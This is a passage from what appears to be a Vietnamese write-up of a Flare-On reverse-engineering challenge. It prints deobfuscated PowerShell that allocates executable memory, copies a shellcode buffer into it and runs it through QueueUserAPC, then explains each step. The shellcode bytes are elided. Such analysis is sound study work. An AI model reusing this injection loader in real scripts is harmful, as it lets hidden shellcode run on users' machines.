 Sau khi decode các đoạn string bị mã hoá trên, ta được:

```powershell
$rpl="a lot of bytes ..."
$cqltd="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentThreadId();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr OpenThread(uint nopeyllax,uint itqxlvpc,IntPtr weo);`n
[DllImport(`"kernel32`")]`npublic static extern uint QueueUserAPC(IntPtr lxqi,IntPtr qlr,IntPtr tgomwjla);`n
[DllImport(`"kernel32`")]`npublic static extern void SleepEx(uint wnhtiygvc,uint igyv);";

$tselcfxhwo=Add-Type -memberDefinition $cqltd -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";$nayw="
[DllImport(`"kernel32`")]`npublic static extern IntPtr GetCurrentProcess();`n
[DllImport(`"kernel32`")]`npublic static extern IntPtr VirtualAllocEx(IntPtr wasmhqfy,IntPtr htdgqhgpwai,uint uxn,uint mepgcpdbpc,uint xdjp);";

$ywqphsrw=Add-Type -memberDefinition $nayw -Name 'pqnvohlggf' -namespace rmb -passthru;

$jky="epnc";

$kwhk=$tselcfxhwo::OpenThread(16,0,$tselcfxhwo::GetCurrentThreadId());
if($yhibbqw=$ywqphsrw::VirtualAllocEx($ywqphsrw::GetCurrentProcess(),0,$rpl.Length,12288,64))
{
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
 }
}
```

Đoạn code trên thực hiện:

- Copy data ở biến `$rpl` vào 1 buffer được tạo bởi `VirtualAlloc`.
- Tạo 1 thread với `QueueUserAPC` với tham số `pfnAPC` là buffer vừa tạo ở trên, chứng tỏ đoạn data này là 1 đoạn shellcode.
- Sau đó nó đợi thread thực hiện xong bằng `SleepEx`.

Ta cùng xem đoạn shellcode bằng HxD trước khi phân tích nó.

<p align="center">
    <img src="/assets/images/flareon/11/5.png"/>
</p>
